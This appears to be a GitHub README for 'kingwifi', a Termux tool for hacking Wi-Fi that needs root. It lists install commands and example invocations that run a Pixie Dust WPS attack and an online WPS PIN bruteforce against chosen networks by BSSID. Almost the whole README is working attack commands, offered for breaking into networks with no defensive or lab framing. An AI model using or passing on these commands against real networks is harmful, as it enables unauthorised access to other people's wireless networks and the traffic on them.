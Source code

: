 # kingwifi
It is Wi-Fi hacking tool
## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone 
$ cd kingwifi
$ chmod +x wifihack.py
$ sudo python wifihack.py --help
```

#### Example : `sudo python wifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
